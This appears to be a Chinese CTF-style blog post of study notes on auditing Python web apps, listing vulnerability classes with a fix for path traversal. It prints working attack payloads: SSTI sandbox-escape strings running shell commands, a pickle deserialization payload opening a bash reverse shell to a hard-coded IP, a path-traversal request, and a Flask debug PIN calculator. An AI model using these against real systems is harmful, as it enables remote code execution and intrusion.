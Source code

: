 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Python 代码审计与安全编码 # 标题
subtitle:   日就完事了               #副标题
date:       2018-08-08              # 时间
author:     RTL                     # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - CTF
  - Web
  - Python
---
```


# Python 代码审计与安全编码

- Python 应用框架
  - Django
  - Flask
  - Tornado
  - Web.py

## Python Web 漏洞距举例

- Django debug page XSS 漏洞
- Django 1.6 版本前 seesion 反序列化任意代码执行
  - Django 1.6 以下，session 默认采用 picked
- ...

### Python(不单单是 Python) 的 Web 应用可能存在哪些问题？

- SQl 注入
- 模板注入 SSTI
- 格式化字符串
- 客户端 SESSION
- 路径穿越
- 反序列化
- Flask Debug Pin 码存在的安全风险

### Web 通用漏洞 在 Python

- Sql 注入
- XSS
- CSRF

- XXE
  - Python 解析 XML 存在 XXE 的函数： lxml 模块
  - 原因： libxml 2.9 以下默认导入外部实体， lxml 中默认
- SSRF
  - 重定向
    - pycurl 默认不跟随重定向， urllib/requests 跟随
  - 协议支持
    - urllib/urllib2/requests -> http/https/ftp
    - pycurl 一般都支持

## SSTI

- What is SSTI?
  - 服务器模板注入和常见的 Web 注入的成因一样，也是服务端接受了
- 从 MVC 开发模式说起
  - Model View Controller
- 模板注入是 Model 被用户控制
- 注入代码

```py

# 由于 jekyll模板问题 % 我使用 PERSENT 代替

# 未过滤
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('ls').read()

# 过滤中括号[]
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()

# 过滤引号''""
#  先获取 chr 函数，赋值给 chr， 后面拼接字符串
{ PERSENT set chr=().__class__.bases__.getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__chr PERSENT}{{
  ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linescache.os.popen(chr(105)PERSENT2bchr(100)).read()
}}
# 借助 request 对象
{{
  ().__class__.bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() 
}}&cmd=id

# 过滤双下划线__
{{
  ''[request.args.class][request.args.mro][2][request.args.sbclasses]()[40]('etc/passwd').read()
}}&class=__class__&mro=__mro__&subclasses=__subclasses__


# 过滤双大括号{{}}
{ PERSENT if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://localhost?i=`whoami`').read()=='p' PERSENT}1{PERSENT endif PERSENT}

```

## 格式化字符串

![](https://github.com/Chris-Ju/Picture/blob/master/python%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E.png?raw=true)

## 客户端 SESSION

- Tornado session 格式(六部分)
  - 版本号
  - len(value) : value
  - key_version
  - 时间戳
  - cookie 的键
  - cookie 的值 (base64)
  - signature 的值

## 路径穿越

```py
@users.route('/asserts/<path:path>')
def static_handler(path):
  filename = os.path.join(app.root_path,'asserts',path)
  if os.path.isfile(filename):
      return send_file(filename)
  else:
      abort(404)

# curl localhost:8080/assert/..%2fuser.py
```

- 如何修复
  - os.path.join 换成 flask 提供的 safe_join
  - 过滤
  - 使用 static 目录存放静态文件

## 反序列化

```py
import os
import pickle

class test(object):
  def __reduce__(self):
    code='bash -c "bash -i >& /dev/tcp/118.89.20.188/12345 0<&1 2>&1"'
    return (os.system, (code,))
print pickle.dump(test())
```

- 其他序列化函数
  - yaml
  - shelve

## Flask Debug Pin

```py
  md5_list = [
    'root', #当前用户，可通过读取 /ect/passwd 获取
    'flask.app', #一般情况为固定值
    'Flask', #一般情况为固定值
    'usr/local/lib/python2.7/dist-packages/flask/app.pyc',#可通过debug错误页面获取
    'mac地址十进制', #通过读取/sys/class/net/eth0/address获取，如果不是映射端口，可以通过 arp ip命令获取
    '机器名' #通过读取/etc/machine-id(常为空) 或 /proc/sys/kernel/random/boot_id 获取
  ]
```

- 计算 pin 码

```py
# -*- coding:utf-8 -*-
import hashlib

def get_pin(md5_list):
  h = hashlib.md5()
  for bit in md5_list:
    if not bit:
      continue
    if isinstance(bit, unicode):
      bit = bit.encode('utf-8')
    h.update(bit)
  h.update(b'cookiesalt')
  h.update(b'pinsalt')
  num = ('%09d' % int(h.hexdigest(), 16))[:9]
  for group_size in 5, 4, 3:
    if len(num) % group_size == 0:
      rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
        for x in range(0, len(num), group_size))
      break
  else:
    rv = num
  return rv
```